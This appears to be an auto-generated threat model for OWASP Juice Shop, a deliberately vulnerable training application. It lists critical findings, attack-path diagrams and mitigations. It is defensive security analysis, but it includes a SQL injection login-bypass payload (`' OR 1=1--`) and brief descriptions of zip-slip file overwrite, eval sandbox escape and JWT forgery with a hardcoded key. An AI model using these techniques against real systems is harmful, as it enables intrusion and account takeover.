# Threat Model - Juice Shop

_Generated by appsec-advisor v0.4.0-beta (analysis v2)_


---

> | | |
> |---|---|
> | **Project** | Juice Shop v19.2.1 |
> | **Description** | Probably the most modern and sophisticated insecure web application |
> | **Author** | Björn Kimminich <bjoern.kimminich@owasp\.org> (https://kimminich.de) |
> | **License** | MIT |
> | **Repository** | https://github.com/juice-shop/juice-shop |
> | **Homepage** | https://owasp-`juice.shop` |
> | **Runtime** | Node\.js 20 - 24, Express 4 |
> | **Tags** | web security, web application security, webappsec, owasp, pentest, pentesting, security, vulnerable, vulnerability, broken, bodgeit, ctf, capture the flag, awareness |

---

## Changelog

_Append-only history of assessment runs. Most recent first._

| Version | Date | Mode | Depth | Reasoning | Baseline → Current | Δ Threats | Code | Note |
|--------|----------|--------|--------|--------------|------------------|----------------|--------|--------|
| v1 | 2026-06-12 | full | standard | sonnet-economy | _(initial)_ | +54 / ~0 / -0 | - | - |

---

## Table of Contents

- [Management Summary](#management-summary)
- [Critical Attack Tree](#critical-attack-tree)
1. [System Overview](#1-system-overview)
   - [Scope](#scope)
- [1.5 Identified Actors](#15-identified-actors)
2. [Architecture Diagrams](#2-architecture-diagrams)
   - [2.1 System Context](#21-system-context)
   - [2.2 Container Architecture](#22-container-architecture)
   - [2.3 Components](#23-components)
   - [2.4 Technology Architecture](#24-technology-architecture)
3. [Attack Walkthroughs](#3-attack-walkthroughs)
   - [3.1 JWT Algorithm Confusion Missing algorithms Allowlist…](#31-jwt-algorithm-confusion-missing-algorithms-allowlist)
   - [3.2 Systemic Broken Object-Level Authorization Missing Ownershi…](#32-systemic-broken-object-level-authorization-missing-ownershi)
   - [3.3 JWT Session Token in localStorage XSS-Accessible Storage](#33-jwt-session-token-in-localstorage-xss-accessible-storage)
   - [3.4 SQL Injection Authentication Bypass (routes/login.ts:34)](#34-sql-injection-authentication-bypass-routeslogints34)
   - [3.5 Hardcoded RSA Private Key (lib/insecurity.ts:23)](#35-hardcoded-rsa-private-key-libinsecurityts23)
   - [3.6 Derived Predictable Password from Email Claim…](#36-derived-predictable-password-from-email-claim)
   - [3.7 SQL Injection via UNION in Product Search…](#37-sql-injection-via-union-in-product-search)
   - [3.8 Zip-slip arbitrary file write via raw entry.path in ZIP ext…](#38-zip-slip-arbitrary-file-write-via-raw-entrypath-in-zip-ext)
   - [3.9 Reflected DOM XSS via Search Query Parameter…](#39-reflected-dom-xss-via-search-query-parameter)
   - [3.10 Hardcoded RSA Private Key (lib/insecurity.ts:23)](#310-hardcoded-rsa-private-key-libinsecurityts23)
   - [3.11 MD5 Password Hashing Without Salt (lib/insecurity.ts:43)](#311-md5-password-hashing-without-salt-libinsecurityts43)
   - [3.12 Sandbox Escape via Unsafe Expression Evaluation…](#312-sandbox-escape-via-unsafe-expression-evaluation)
   - [3.13 Mass Assignment Allows Self-Promotion to Admin Role…](#313-mass-assignment-allows-self-promotion-to-admin-role)
   - [3.14 Missing authentication on POST /file-upload allows unauthen…](#314-missing-authentication-on-post-file-upload-allows-unauthen)
4. [Assets](#4-assets)
5. [Attack Surface](#5-attack-surface)
   - [5.1 Unauthenticated Entry Points (57)](#51-unauthenticated-entry-points-57)
   - [5.2 Authenticated Entry Points (53)](#52-authenticated-entry-points-53)
7. [Security Architecture](#7-security-architecture)
   - [7.1 Security Control Overview](#71-security-control-overview)
   - [7.2 Identity and Authentication Controls](#72-identity-and-authentication-controls)
   - [7.3 Session and Token Controls](#73-session-and-token-controls)
   - [7.4 Authorization Controls](#74-authorization-controls)
   - [7.5 Query Construction and Data Access Controls](#75-query-construction-and-data-access-controls)
   - [7.6 Input Boundary Validation Controls](#76-input-boundary-validation-controls)
   - [7.7 Output Encoding and Rendering Controls](#77-output-encoding-and-rendering-controls)
   - [7.8 Browser and Cross-Origin Controls](#78-browser-and-cross-origin-controls)
   - [7.9 Cryptography Secrets and Data Protection](#79-cryptography-secrets-and-data-protection)
   - [7.10 File Parser and Outbound Request Controls](#710-file-parser-and-outbound-request-controls)
   - [7.11 Operations Runtime and Supply Chain Controls](#711-operations-runtime-and-supply-chain-controls)
   - [7.12 Real-time and Not Applicable Controls](#712-real-time-and-not-applicable-controls)
   - [7.13 Defense-in-Depth Summary](#713-defense-in-depth-summary)
8. [Findings Register](#8-findings-register)
9. [Abuse Cases](#9-abuse-cases)
10. [Mitigation Register](#10-mitigation-register)
11. [Out of Scope](#11-out-of-scope)
- [Appendix: Run Statistics](#appendix-run-statistics)
- [Appendix: Composition Notes](#appendix-composition-notes)
- [Appendix A - Vektor Taxonomy](#appendix-a-vektor-taxonomy)

> _Section numbering is non-contiguous: §6 was retired in a prior revision. The remaining sections keep their original numbers so existing cross-references stay valid._

---

## Management Summary

### Verdict

🔴 Juice Shop is not production-ready. The codebase exposes multiple independent paths to full account takeover and host-level code execution - none requiring elevated privilege - through hardcoded signing keys, SQL injection on the authentication endpoint, sandbox escape via server-side eval, and broken object-level authorization applied systematically across resource endpoints. Structural changes at the authentication, data-access, secret-management, and authorization layers are required before any production readiness evaluation.

**Risk distribution:** 🔴 Critical: 14 · 🟠 High: 32 · 🟡 Medium: 7 · 🟢 Low: 1 · **Total: 54**


<br/>

**Dominant attack scenarios an external attacker can execute today:**

<blockquote style="border-left: 3px solid #dc2626; background: #fef2f2; padding: 16px 20px; margin: 0;">

- **Admin account takeover via SQL injection** — Unauthenticated attacker sends `' OR 1=1--` to `routes/login.ts:34`, which interpolates `req.body.email` into a raw Sequelize query, returning the first (seeded admin) row without valid credentials. *(🔴 [F-008](#f-008) — SQL Injection Authentication Bypass (`routes/login.ts:34`), 🔴 [F-011](#f-011) — SQL Injection via UNION in Product Search (`routes/search.ts:23`))*
- **Arbitrary JWT forgery via hardcoded RSA key** — The 1024-bit RSA private key committed verbatim at `lib/insecurity.ts:23` is world-readable from the public repository. Any actor can sign a token with `role=admin` that the `express-jwt` middleware accepts. *(🔴 [F-009](#f-009) — Hardcoded RSA Private Key (`lib/insecurity.ts:23`), 🔴 [F-001](#f-001) — JWT Algorithm Confusion Missing algorithms Allowlist (`lib/insecurity.ts`))*
- **Server-side code execution via B2B eval sandbox escape** — `routes/b2bOrder.ts:23` passes the raw `orderLinesData` request field to `safeEval()` inside a Node\.js vm context. The notevil sandbox does not prevent process-level access; any authenticated B2B user can execute arbitrary Node.js. *(🔴 [F-016](#f-016) — Sandbox Escape via Unsafe Expression Evaluation (`routes/b2bOrder.ts:23`))*
- **Arbitrary file write via zip-slip on upload endpoint** — The file-upload handler extracts ZIP entries using `entry.path` directly at line 41, without stripping path-traversal sequences. An attacker can overwrite server-side files such as `~/.ssh/authorized_keys`. *(🔴 [F-012](#f-012) — Zip-slip arbitrary file write via raw entry.path in ZIP extraction)*
- **Mass self-promotion to admin role** — The `POST /api/Users` endpoint auto-generated by finale-rest accepts any `UserModel` column in the JSON body, including `role`. Any registered user can escalate to admin by patching their own record. *(🔴 [F-017](#f-017) — Mass Assignment Allows Self-Promotion to Admin Role (`server.ts:500`))*

</blockquote>

<br/>

The three fixes that matter most are: replace the hardcoded signing key with a runtime-injected secret, switch all raw SQL to parameterized queries, and add server-side ownership checks on every resource endpoint. Without those three, production deployment is not viable.

**Attack-chain analysis.** 3 findings anchor 3 code-verified attack chains (see [§9](#9-abuse-cases) Abuse Cases): 🔴 [F-001](#f-001) — JWT Algorithm Confusion Missing algorithms Allowlist (`lib/insecurity.ts`), 🔴 [F-002](#f-002) — Systemic Broken Object-Level Authorization Missing Ownership Check Across Resou…, 🔴 [F-009](#f-009) — Hardcoded RSA Private Key (`lib/insecurity.ts:23`). Their Critical/High ratings reflect exploitability confirmed end-to-end across the chain, not the individual weakness alone.

### Architectural Anti-Patterns

The defects below are structural - each spans multiple findings and requires a design change, not a point fix. See **[§7 Security Architecture](#7-security-architecture)** for the per-control detail.

- **SPA without BFF** — The Angular SPA stores the session JWT in `localStorage`, where it is reachable by any injected script. No Backend-for-Frontend moves the token into an HttpOnly cookie on a server-controlled boundary, so a single XSS finding immediately yields session hijack across all authenticated users.
    - _Affected components:_ [C-01](#c-01)
    - _Findings:_ 🔴 [F-003](#f-003) — JWT stored in localStorage, 🔴 [F-013](#f-013) — Reflected DOM XSS via search query

- **Secrets hardcoded in source** — RSA private key and HMAC secret are committed verbatim at `lib/insecurity.ts`, making the signing material world-readable from the public repository. Key rotation is impossible without a code change and a new deployment.
    - _Affected components:_ [C-02](#c-02)
    - _Findings:_ 🔴 [F-009](#f-009) — Hardcoded RSA private key, 🔴 [F-014](#f-014) — Hardcoded RSA private key duplicate

- **Raw SQL string interpolation** — At least two routes bypass Sequelize's parameterized-query path and concatenate user-controlled values directly into SQL strings, creating injection surfaces on both the authentication and search endpoints.
    - _Affected components:_ [C-02](#c-02)
    - _Findings:_ 🔴 [F-008](#f-008) — SQL injection on login endpoint, 🔴 [F-011](#f-011) — SQL injection in product search

- **Missing server-side authorization layer** — Resource ownership is not enforced server-side: object-level authorization is absent across multiple API endpoints, and the mass-assignment endpoint allows any user to modify privilege fields. Authorization decisions that should be derived from the authenticated session token are instead trusted from the request body.
    - _Affected components:_ [C-02](#c-02)
    - _Findings:_ 🔴 [F-002](#f-002) — Broken object-level authorization, 🔴 [F-017](#f-017) — Mass assignment to admin role

### Security Posture & Top Threats

**Figure 1 - Architecture, Trust Boundaries & Threats**

Components grouped by architecture tier. **Grey** edges are the legitimate request backbone; **solid red** are attacks (each from a threat actor); **dotted red** are the consequence path onto the data tier or victim. Glyphs match Figure 2 and the Top Threats table.


```mermaid
%%{init: {"flowchart": {"defaultRenderer": "elk", "nodeSpacing": 34, "rankSpacing": 52, "padding": 10, "subGraphTitleMargin": {"top": 6, "bottom": 6}}} }%%
flowchart TB
    subgraph ZONE_ACTORS["External Actors"]
        direction LR
        EXT_SHOPUSER["fa:fa-user Shop User<br/><i>legitimate customer - XSS/CSRF target</i>"]:::actorgood
        ACT_INTERNET_ANON["fa:fa-user-secret Anonymous Internet Attacker<br/><i>incl. self-registered users - open registration makes authenticated ≈ anonymous</i>"]:::actorbad
    end

    subgraph CLIENT["Client Tier - browser"]
        CMP_FRONTEND_SPA["C-01 · Angular Frontend SPA<br/><i>🔴 3 🟠 3</i>"]:::comp
    end
    subgraph APP["Application Tier - Node / Express"]
        CMP_BACKEND_API["C-02 · Express REST API Backend<br/><i>🔴 9 🟠 13</i>"]:::comp
        CMP_B2B_API["C-04 · B2B API / Order Sandbox<br/><i>🔴 1 🟠 1</i>"]:::comp
        CMP_FILE_UPLOAD_SERVICE["C-05 · File Upload Service<br/><i>🔴 1 🟠 4</i>"]:::comp
        CMP_SOCKETIO_SERVER["C-06 · Socket.IO Real-Time Server<br/><i>🟠 3</i>"]:::comp
        CMP_CI_CD_PIPELINE["C-07 · GitHub Actions CI/CD Pipeline<br/><i>🟠 6</i>"]:::comp
    end
    subgraph DATA["Data Tier"]
        CMP_DATA_PERSISTENCE["C-03 · SQLite Data Layer<br/><i>🟠 2</i>"]:::comp
    end

    %% legitimate request flow
    EXT_SHOPUSER -->|"uses"| CMP_FRONTEND_SPA
    CMP_FRONTEND_SPA -->|"API calls"| CMP_BACKEND_API
    CMP_BACKEND_API -->|"reads/writes"| CMP_DATA_PERSISTENCE
    CMP_BACKEND_API -->|"routes to"| CMP_SOCKETIO_SERVER
    %% attacks (solid) - each originates at a threat actor; glyphs match Figure 2 / Top Threats
    ACT_INTERNET_ANON ==>|"① Injection ② Auth Bypass ③ Priv-Esc ④ Secret Exposure ⑤ RCE"| CMP_BACKEND_API
    ACT_INTERNET_ANON ==>|"① ④"| CMP_FILE_UPLOAD_SERVICE
    ACT_INTERNET_ANON ==>|"② ③"| CMP_CI_CD_PIPELINE
    ACT_INTERNET_ANON ==>|"⑤"| CMP_B2B_API
    ACT_INTERNET_ANON ==>|"⑥ XSS"| CMP_FRONTEND_SPA
    %% propagation (dotted) - how the attack reaches the data tier / victim
    CMP_BACKEND_API -.->|"④"| CMP_DATA_PERSISTENCE
    CMP_FRONTEND_SPA -.->|"⑥"| EXT_SHOPUSER
    %% invisible barycenter-balancing edges - center the client/data tiers under the app row (no glyph, no linkStyle → rendered as no line)
    CMP_B2B_API ~~~ CMP_DATA_PERSISTENCE
    CMP_FILE_UPLOAD_SERVICE ~~~ CMP_DATA_PERSISTENCE
    CMP_SOCKETIO_SERVER ~~~ CMP_DATA_PERSISTENCE
    CMP_CI_CD_PIPELINE ~~~ CMP_DATA_PERSISTENCE
    CMP_FRONTEND_SPA ~~~ CMP_B2B_API
    CMP_FRONTEND_SPA ~~~ CMP_FILE_UPLOAD_SERVICE
    CMP_FRONTEND_SPA ~~~ CMP_SOCKETIO_SERVER
    CMP_FRONTEND_SPA ~~~ CMP_CI_CD_PIPELINE

    style CLIENT fill:none,stroke:#475569,stroke-width:1.5px,stroke-dasharray:5
    style APP fill:none,stroke:#b71c1c,stroke-width:2px,stroke-dasharray:5
    style DATA fill:none,stroke:#475569,stroke-width:1.5px,stroke-dasharray:5
    style ZONE_ACTORS fill:none,stroke:#94a3b8,stroke-width:1.5px,stroke-dasharray:5
    classDef comp fill:#eef2f7,stroke:#334155,color:#0f172a,stroke-width:1.5px
    classDef compmuted fill:#f8fafc,stroke:#cbd5e1,color:#64748b,stroke-width:1px,font-size:9px
    classDef ext  fill:#ffffff,stroke:#94a3b8,color:#334155,stroke-width:1.5px
    classDef actorbad  fill:#fde8e8,stroke:#b71c1c,color:#7f0000,stroke-width:2px
    classDef actorgood fill:#e8f1ea,stroke:#2e7d32,color:#1b5e20,stroke-width:1.5px
    linkStyle 0,1,2,3 stroke:#6b7280,stroke-width:1.5px
    linkStyle 4,5,6,7,8 stroke:#b71c1c,stroke-width:2.5px
    linkStyle 9,10 stroke:#b71c1c,stroke-width:1.5px,stroke-dasharray:5
```

_Threats: ① Injection · ② Auth Bypass · ③ Priv-Esc · ④ Secret Exposure · ⑤ RCE · ⑥ XSS_

_Component badge: 🔴 = number of Critical findings on the component · 🟠 = number of High findings. Components with no Critical/High finding carry no badge._

**Figure 2 - Risk Flow: Actor → Tier → Impact**

Heatmap: **actors** (left) → **architecture tiers** (middle, Client → Application → Data) → **impact** (right). Numbered red arrows ①–⑥ are the threats enumerated in the Top Threats table below. Self-registration is open, so the **Authenticated Internet Attacker** tier is one POST away from anonymous - it is shown distinctly because a post-login endpoint is still a different attack surface.


```mermaid
%%{init: {"flowchart": {"defaultRenderer": "elk", "nodeSpacing": 45, "rankSpacing": 95}} }%%
flowchart LR
    subgraph ACTORS[" "]
        direction TB
        HDR_A["<b>Threat Actors</b>"]:::columnHeader
        ANON(["fa:fa-user-secret Anonymous Internet Attacker"]):::actorAnon
    end

    subgraph TIERS[" "]
        direction TB
        HDR_T["<b>Architecture Tiers</b>"]:::columnHeader
        BROWSER["Client Tier<br/>C-01 Angular Frontend SPA"]:::tierClient
        SERVER["Application Tier<br/>C-02 Express REST API Backend · C-04 B2B API / Order Sandbox · C-05 File Upload Service · C-06 Socket.IO Real-Time Server · C-07 GitHub Actions CI/CD Pipeline"]:::tierApp
        DATA["Data Tier<br/>C-03 SQLite Data Layer"]:::tierData
    end

    subgraph IMPACT[" "]
        direction TB
        HDR_I["<b>Business Impact</b>"]:::columnHeader
        CUSTOMER_SESSION_HIJACK[["🟠 Customer Session Hijack"]]:::impact
        FULL_ADMIN_TAKEOVER[["🔴 Full Admin Takeover"]]:::impact
        FULL_SERVER_COMPROMISE[["🔴 Full Server Compromise"]]:::impact
        CUSTOMER_DATA_EXFILTRATION[["🔴 Customer Data Exfiltration"]]:::impact
    end

    %% Invisible alignment hints. Two purposes:
    %%   (a) keep per-component alignment edges (e.g. ANON --- SERVER) so the
    %%       forward attack arrows route horizontally without crossing tier
    %%       boxes (the diagram is forward-only: actor → tier → impact, no
    %%       backward relay edges into the actor column);
    %%   (b) chain the three column headers (HDR_A, HDR_T, HDR_I) across
    %%       subgraph boundaries so ELK pins them on the same Y line.
    HDR_A --- HDR_T
    HDR_T --- HDR_I
    ANON --- SERVER

    %% Attack arrows
    ANON ==>|" ① ② ③ ④ ⑤  "| SERVER
    ANON ==>|" ⑥  "| BROWSER

    %% Consequence arrows (tier → business impact, all LR-forward)
    SERVER -.-> CUSTOMER_DATA_EXFILTRATION
    SERVER -.-> FULL_ADMIN_TAKEOVER
    SERVER -.-> FULL_SERVER_COMPROMISE
    BROWSER -.-> CUSTOMER_SESSION_HIJACK

    %% Subgraph frames invisible - column headers are emitted as the
    %% FIRST node of each subgraph (HDR_A / HDR_T / HDR_I) and pinned
    %% on the same Y line by the cross-subgraph alignment edges above.
    style ACTORS fill:none,stroke:none
    style TIERS  fill:none,stroke:none
    style IMPACT fill:none,stroke:none

    classDef tierClient fill:#f2f2f2,stroke:#424242,color:#111,stroke-width:2px,font-size:12px
    classDef tierApp    fill:#f2f2f2,stroke:#424242,color:#111,stroke-width:2px,font-size:12px
    classDef tierData   fill:#f2f2f2,stroke:#424242,color:#111,stroke-width:2px,font-size:12px

    classDef actorAnon     fill:#f3dada,stroke:#b71c1c,color:#7f0000,stroke-width:2px,font-size:12px
    classDef actorShopUser fill:#e8f1ea,stroke:#2e7d32,color:#1b5e20,stroke-width:2px,font-size:12px
    classDef impact        fill:#0f172a,stroke:#000,color:#fff,stroke-width:3px,font-size:12px

    classDef columnHeader  fill:none,stroke:none,color:#111,font-size:14px

    linkStyle 0,1,2     stroke:transparent,stroke-width:0px
    linkStyle 3,4     stroke:#b71c1c,stroke-width:3px
    linkStyle 5,6,7,8     stroke:#6b7280,stroke-width:1.5px,stroke-dasharray:4

```

**Threat actors.** The actors below drive the numbered attack paths in the figures above; the Shop User is the *victim* of client-side attacks (XSS / CSRF), not an attacker.

- **Shop User** — legitimate customer; target of client-side attacks; target of ⑥ Output Encoding / Cross-Site Scripting.
- **Anonymous Internet Attacker** — no account; registers in seconds when needed; drives ① Insecure Query Construction & Data Access, ② Hardcoded Secrets & Weak Cryptography, ③ Broken Authorization & Access Control, ④ Sensitive File & Secret Exposure, ⑤ Remote Code Execution (unsafe eval).

**6 structural threats**, grouped by weakness class - each row is one threat, not one finding. *Threat Description* states the general architectural weakness (STRIDE in brackets); *Findings* lists the concrete instances, each linked to [§8 Findings Register](#8-findings-register) with its component; *Risk & Impact* combines severity with business consequence.

| # | Threat Description | Findings (→ Component) | Risk & Impact | Fix |
|---|------------------------------------|------------------------------------------------|------------------------------------|--------|
| <a id="path-injection"></a>① | **Insecure Query Construction & Data Access**<br/>_(T·I)_<br/>user input flows into a server-side<br/>interpreter (SQL, NoSQL, XML, YAML, LDAP, OS<br/>shell) without parameterisation or schema<br/>validation. | <span style="white-space:nowrap">🔴&nbsp;[F-008](#f-008)</span> - SQL Injection Authentication Bypass (`routes/login.ts:34`) <span style="white-space:nowrap">→&nbsp;[C-02](#c-02)</span><br/><span style="white-space:nowrap">🔴&nbsp;[F-011](#f-011)</span> - SQL Injection via UNION in Product Search (`routes/search.ts:23`) <span style="white-space:nowrap">→&nbsp;[C-02](#c-02)</span><br/><span style="white-space:nowrap">🟠&nbsp;[F-025](#f-025)</span> - XXE via external entity resolution in XML upload parser (`fileUpload.ts:83`) <span style="white-space:nowrap">→&nbsp;[C-05](#c-05)</span> | 🔴 **Critical**<br/>Customer Data Exfiltration | <span style="white-space:nowrap">❸ [M-006](#m-006)</span> — Manual review: verify SQL Injection Authentication Bypass at `routes/login.ts:34`<br/><span style="white-space:nowrap">❸ [M-009](#m-009)</span> — Manual review: verify SQL Injection via UNION in Product Search at `routes/search.ts:23` |
| <a id="path-auth-bypass"></a>② | **Hardcoded Secrets & Weak Cryptography**<br/>_(S·E)_<br/>authentication can be circumvented or forged<br/>because credentials, signing keys, or<br/>password hashes are weak, missing, or<br/>exposed. | <span style="white-space:nowrap">🔴&nbsp;[F-001](#f-001)</span> - JWT Algorithm Confusion Missing algorithms Allowlist (`lib/insecurity.ts`) <span style="white-space:nowrap">→&nbsp;[C-02](#c-02)</span><br/><span style="white-space:nowrap">🟡&nbsp;[F-005](#f-005)</span> - Missing Container Image Signing (cosign / build provenance attestation) <span style="white-space:nowrap">→&nbsp;[C-07](#c-07)</span><br/><span style="white-space:nowrap">🔴&nbsp;[F-009](#f-009)</span> - Hardcoded RSA Private Key (`lib/insecurity.ts:23`) <span style="white-space:nowrap">→&nbsp;[C-02](#c-02)</span><br/><span style="white-space:nowrap">🔴&nbsp;[F-014](#f-014)</span> - Hardcoded RSA Private Key (`lib/insecurity.ts:23`) <span style="white-space:nowrap">→&nbsp;[C-02](#c-02)</span><br/><span style="white-space:nowrap">🔴&nbsp;[F-015](#f-015)</span> - `MD5` Password Hashing Without Salt (`lib/insecurity.ts:43`) <span style="white-space:nowrap">→&nbsp;[C-02](#c-02)</span><br/><span style="white-space:nowrap">🟠&nbsp;[F-020](#f-020)</span> - OAuth Implicit Flow Token in URL Fragment (`login.component.ts:134`) <span style="white-space:nowrap">→&nbsp;[C-01](#c-01)</span> | 🔴 **Critical**<br/>Full Admin Takeover · Customer Data<br/>Exfiltration | <span style="white-space:nowrap">❸ [M-004](#m-004)</span> — Manual review: verify JWT Algorithm Confusion Missing algorithms Allowlist at `lib/insecurity.ts:54`<br/><span style="white-space:nowrap">❸ [M-044](#m-044)</span> — Container image signing via cosign or attest-build-provenance |
| <a id="path-privilege-escalation"></a>③ | **Broken Authorization & Access Control**<br/>_(E·I)_<br/>authorisation checks are absent or<br/>bypassable, allowing horizontal and vertical<br/>privilege jumps from a self-registered or<br/>low-rights account. Includes mass-assignment<br/>of privileged attributes. | <span style="white-space:nowrap">🔴&nbsp;[F-002](#f-002)</span> - Systemic Broken Object-Level Authorization Missing Ownership Check Across Resou… <span style="white-space:nowrap">→&nbsp;[C-02](#c-02)</span><br/><span style="white-space:nowrap">🔴&nbsp;[F-017](#f-017)</span> - Mass Assignment Allows Self-Promotion to Admin Role (`server.ts:500`) <span style="white-space:nowrap">→&nbsp;[C-02](#c-02)</span><br/><span style="white-space:nowrap">🟠&nbsp;[F-022](#f-022)</span> - Missing Authorization on Products PUT Endpoint (`server.ts:369`) <span style="white-space:nowrap">→&nbsp;[C-02](#c-02)</span><br/><span style="white-space:nowrap">🟠&nbsp;[F-033](#f-033)</span> - GitHub Actions workflow-level permissions block <span style="white-space:nowrap">→&nbsp;[C-07](#c-07)</span><br/><span style="white-space:nowrap">🟠&nbsp;[F-045](#f-045)</span> - Unauthenticated Admin Configuration Endpoints (`server.ts:604`) <span style="white-space:nowrap">→&nbsp;[C-02](#c-02)</span><br/><span style="white-space:nowrap">🟠&nbsp;[F-047](#f-047)</span> - Sensitive REST route registered without authentication middleware <span style="white-space:nowrap">→&nbsp;[C-02](#c-02)</span><br/><span style="white-space:nowrap">🟠&nbsp;[F-048](#f-048)</span> - Client-Side-Only Admin Route Guard (`frontend/src/app/app.guard.ts:52`) <span style="white-space:nowrap">→&nbsp;[C-01](#c-01)</span><br/><span style="white-space:nowrap">🟡&nbsp;[F-051](#f-051)</span> - GITHUB_TOKEN scope minimization <span style="white-space:nowrap">→&nbsp;[C-07](#c-07)</span> | 🔴 **Critical**<br/>Full Admin Takeover · Customer Data<br/>Exfiltration | <span style="white-space:nowrap">❶ [M-052](#m-052)</span> — Replace `req.body.UserId`/userId/ownerId with `req.user.id` (or equivalent session-derived identity) in every WHERE/filter clause.<br/><span style="white-space:nowrap">❷ [M-048](#m-048)</span> — GitHub Actions workflow-level permissions block |
| <a id="path-sensitive-data-exposure"></a>④ | **Sensitive File & Secret Exposure** _(I)_<br/>confidential files, credentials, and<br/>management-plane endpoints are reachable on<br/>unauthenticated routes; SSRF lets the server<br/>fetch internal resources on the attacker's<br/>behalf; unsafe path-handling primitives leak<br/>server content. | <span style="white-space:nowrap">🔴&nbsp;[F-012](#f-012)</span> - Zip-slip arbitrary file write via raw `entry.path` in ZIP extraction <span style="white-space:nowrap">→&nbsp;[C-05](#c-05)</span><br/><span style="white-space:nowrap">🟠&nbsp;[F-023](#f-023)</span> - Server-Side Request Forgery via Profile Image URL (`profileImageUrlUpload.ts:24`) <span style="white-space:nowrap">→&nbsp;[C-02](#c-02)</span><br/><span style="white-space:nowrap">🟠&nbsp;[F-031](#f-031)</span> - Unauthenticated Access Log Directory Listing (`server.ts:281`) <span style="white-space:nowrap">→&nbsp;[C-02](#c-02)</span><br/><span style="white-space:nowrap">🟠&nbsp;[F-036](#f-036)</span> - Plaintext Payment Card Storage (`models/card.ts:39`) <span style="white-space:nowrap">→&nbsp;[C-03](#c-03)</span><br/><span style="white-space:nowrap">🟠&nbsp;[F-037](#f-037)</span> - Null-byte injection bypasses extension allowlist to serve restricted FTP files <span style="white-space:nowrap">→&nbsp;[C-05](#c-05)</span><br/><span style="white-space:nowrap">🟠&nbsp;[F-038](#f-038)</span> - Publicly exposed /ftp/ directory listing reveals sensitive internal files <span style="white-space:nowrap">→&nbsp;[C-02](#c-02)</span><br/><span style="white-space:nowrap">🟡&nbsp;[F-054](#f-054)</span> - Open Redirect Allowlist Bypass via Substring Match (`lib/insecurity.ts:138`) <span style="white-space:nowrap">→&nbsp;[C-02](#c-02)</span> | 🔴 **Critical**<br/>Customer Data Exfiltration | <span style="white-space:nowrap">❸ [M-010](#m-010)</span> — Manual review: verify Zip-slip arbitrary file write via raw entry.path in ZIP extraction at `routes/fileUpload.ts:45`<br/><span style="white-space:nowrap">❸ [M-020](#m-020)</span> — Manual review: verify Server-Side Request Forgery via Profile Image URL at `routes/profileImageUrlUpload.ts:24` |
| <a id="path-remote-code-execution"></a>⑤ | **Remote Code Execution (unsafe eval)** _(E)_<br/>user-supplied data reaches a server-side<br/>code-execution sink (`eval`, sandbox<br/>primitives, deserialisation,<br/>prototype-pollution gadgets) and breaks out<br/>into arbitrary native execution. | <span style="white-space:nowrap">🔴&nbsp;[F-016](#f-016)</span> - Sandbox Escape via Unsafe Expression Evaluation (`routes/b2bOrder.ts:23`) <span style="white-space:nowrap">→&nbsp;[C-04](#c-04)</span><br/><span style="white-space:nowrap">🟠&nbsp;[F-021](#f-021)</span> - Server-Side Template Injection via eval in User Profile (`userProfile.ts:62`) <span style="white-space:nowrap">→&nbsp;[C-02](#c-02)</span> | 🔴 **Critical**<br/>Full Server Compromise · Customer Data<br/>Exfiltration · Full Admin Takeover | <span style="white-space:nowrap">❸ [M-014](#m-014)</span> — Manual review: verify Sandbox Escape via Unsafe Expression Evaluation at `routes/b2bOrder.ts:23`<br/><span style="white-space:nowrap">❸ [M-018](#m-018)</span> — Manual review: verify Server-Side Template Injection via eval in User Profile at `routes/userProfile.ts:62` |
| <a id="path-cross-site-scripting"></a>⑥ | **Output Encoding / Cross-Site Scripting**<br/>_(T·I)_<br/>attacker-controlled content is rendered in<br/>the victim's browser without sanitisation;<br/>combined with session tokens held in<br/>JavaScript-readable storage, any payload<br/>yields immediate account takeover. | <span style="white-space:nowrap">🔴&nbsp;[F-003](#f-003)</span> - JWT Session Token in localStorage XSS-Accessible Storage <span style="white-space:nowrap">→&nbsp;[C-01](#c-01)</span><br/><span style="white-space:nowrap">🔴&nbsp;[F-013](#f-013)</span> - Reflected DOM XSS via Search Query Parameter (`search-result.component.ts:170`) <span style="white-space:nowrap">→&nbsp;[C-01](#c-01)</span><br/><span style="white-space:nowrap">🟠&nbsp;[F-026](#f-026)</span> - Stored XSS via Product Description Trust Bypass (`search-result.component.ts:132`) <span style="white-space:nowrap">→&nbsp;[C-01](#c-01)</span><br/><span style="white-space:nowrap">🟡&nbsp;[F-052](#f-052)</span> - Stored XSS via lastLoginIp JWT Claim Trust Bypass <span style="white-space:nowrap">→&nbsp;[C-01](#c-01)</span> | 🔴 **Critical**<br/>Customer Session Hijack | <span style="white-space:nowrap">❸ [M-005](#m-005)</span> — Manual review: verify JWT Session Token in localStorage XSS-Accessible Storage at `frontend/src/app/Services/request.interceptor.ts:13`<br/><span style="white-space:nowrap">❸ [M-011](#m-011)</span> — Manual review: verify Reflected DOM XSS via Search Query Parameter at `frontend/src/app/search-result/search-result.component.ts:170` |

_STRIDE: S spoofing · T tampering · R repudiation · I information disclosure · D denial of service · E elevation of privilege. Risk, findings, components, impact and Fix are derived deterministically; only the one-line weakness description is authored._

**Verified attack chains.** 3 fully viable ([AC-T-003](#ac-t-003), [AC-T-004](#ac-t-004), [AC-T-005](#ac-t-005)); 2 partially blocked ([AC-T-001](#ac-t-001), [AC-T-006](#ac-t-006)). These chains combine individual findings into end-to-end exploitation paths verified step-by-step against the code - see [§9 Abuse Cases](#9-abuse-cases) for the per-step breakdown and blocking mitigations.

### Top Mitigations

Highest-impact P1/P2 mitigations - 9 of 9 qualifying (57 total). Full detail in [§10 Mitigation Register](#10-mitigation-register). All 3 mitigation(s) that fix a Critical finding are always listed here.

| # | Component | Mitigation | Addresses | Effort |
|---|----------------------|------------------------------------------------|------------------------------------------------|------|
| **1** | [C-02](#c-02) — Express REST API Backend | ❶ [M-001](#m-001) — Centralise JWT secret management and enforce algorithms allowlist | 🔴 [F-001](#f-001) — JWT Algorithm Confusion Missing algorithms Allowlist (`lib/insecurity.ts`, "Authorization")<br/>🔴 [F-009](#f-009) — Hardcoded RSA Private Key (`lib/insecurity.ts`)<br/>🔴 [F-014](#f-014) — Hardcoded RSA Private Key (`lib/insecurity.ts`)<br/>🔴 [F-019](#f-019) — JWT decode used without signature verification (`lib/insecurity.ts`) | Medium |
